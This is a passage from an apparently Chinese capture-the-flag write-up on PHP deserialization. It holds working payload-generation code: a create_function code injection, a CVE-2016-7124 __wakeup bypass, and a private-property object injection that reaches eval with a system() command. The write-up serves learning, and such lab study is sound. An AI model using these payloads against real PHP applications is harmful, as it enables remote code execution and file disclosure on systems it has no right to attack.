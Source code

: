 ```php
$b->code='}include("flag.php");echo $flag;//';
$b->action="create_function";
$a1->key=serialize(array($b,"get_flag"));
echo serialize($a1);
?>
```

**level5 序列化格式过滤与CVE-2016-7124**

```php
<?php
class secret{
    var $file='index.php';

    public function __construct($file){
        $this->file=$file;
        echo $flag;
    }

    function __destruct(){
        include_once($this->file);
    }

    function __wakeup(){
        $this->file='index.php';
    }
}
$pa=new secret('flag.php');
echo serialize($pa),"\n";//O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
$cmd=urlencode('O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}');
echo $cmd;
?>
```

**level6 私有属性反序列化**

```php
<?php
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$pa=new secret("system('type flag.php');");
echo serialize($pa),"\n";
//O:6:"secret":1:{s:12:" secret comm";s:24:"system('type flag.php');";}
//O:6:"secret":1:{S:12:"\00secret\00comm";s:24:"system('type flag.php');";}
?>
```
